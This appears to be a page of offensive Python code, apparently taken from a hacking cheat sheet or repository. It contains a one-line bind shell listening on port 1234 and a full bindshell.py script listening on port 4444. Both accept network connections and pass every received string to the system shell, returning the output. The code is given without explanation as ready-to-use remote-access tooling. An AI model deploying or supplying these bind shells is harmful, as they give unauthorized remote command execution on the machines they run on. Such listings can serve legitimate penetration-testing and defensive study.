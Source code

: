 ### PYTHON

```python
python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'
```

bindshell.py

```python
import socket
import subprocess
import click
from threading import Thread

def run_cmd(cmd):
    output = subprocess.run(cmd, stdout=subprocess.PIPE, stderr=subprocess.PIPE, shell=True)
    return output.stdout

def handle_input(client_socket):
    while True:
        chunks = []
        chunk = client_socket.recv(2048)
        chunks.append(chunk)
        while len(chunk) != 0 and chr(chunk[-1]) != '\n':
            chunk = client_socket.recv(2048)
            chunks.append(chunk)
        cmd = (b''.join(chunks)).decode()[:-1]

        if cmd.lower() == 'exit':
            client_socket.close()
            break

        output = run_cmd(cmd)
        client_socket.sendall(output)

@click.command()
@click.option('--port', '-p', default=4444)
def main(port):
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0', port))
    s.listen(4)

    while True:
        client_socket, _ = s.accept()
        t = Thread(target=handle_input, args=(client_socket, ))
        t.start()

if __name__ == '__main__':
    main()
```
